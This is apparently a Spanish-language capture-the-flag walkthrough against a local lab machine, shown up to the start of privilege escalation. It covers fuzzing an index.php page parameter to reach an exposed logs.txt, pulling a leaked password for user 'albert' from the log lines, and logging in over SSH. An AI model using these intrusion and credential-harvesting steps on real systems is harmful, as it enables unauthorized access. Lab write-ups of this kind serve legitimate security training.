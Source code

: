 Una ves estando logueados encontramos informacion valiosa: Indican que los logs estan expuestos en una carpeta publica que aun no sabemos cual es:
```bash
To manage users or view logs, please use the navigation bar (coming soon... 👀)

[!] Warning: System error logs are exposed to the public folder
```

Tenemos datos sobre que se tiene que asegurar el archivo **logs.txt** antes de ser desplegado:
```bash
<!-- dev note: remember to secure logs.txt path before deploy -->
```

Despues de aplicar **Fuzzing** encontramos esta ruta de los logs:
```bash
http://172.17.0.2/index.php?page=/logs/logs.txt
```

Aqui podemos ver los intentos de session en el sistema el cual contempla:
```bash
[2024-03-29 12:04:23] ERROR: Login attempt for user 'albert'
[2024-03-29 12:04:24] DEBUG: Trying password 'NGxiM3J0MTIz'
[2024-03-29 12:04:25] SUCCESS: Auth success for user 'albert'
[2024-03-29 12:04:26] DEBUG: Session token issued: 38b2fdcbffe78b9989f3e
```
### Credenciales Encontradas
- Usuario: `[ albert ]`
- Contraseña: `[ NGxiM3J0MTIz ]`

---
## Explotacion de Vulnerabilidades
### Vector de Ataque
Ahora que tenemos acceso a los logs del sistema podremos loguearnos por ssh con las credenciales expuestas: 

### Intrusion
En este caso la intrusion sera por **ssh**

```bash
# Reverse shell o acceso inicial
ssh-keygen -R 172.17.0.2 && ssh albert@172.17.0.2 ( NGxiM3J0MTIz ) 
```

---

## Escalada de Privilegios
### Enumeracion del Sistema
```bash
# Comandos clave ejecutados
ps -faux
```
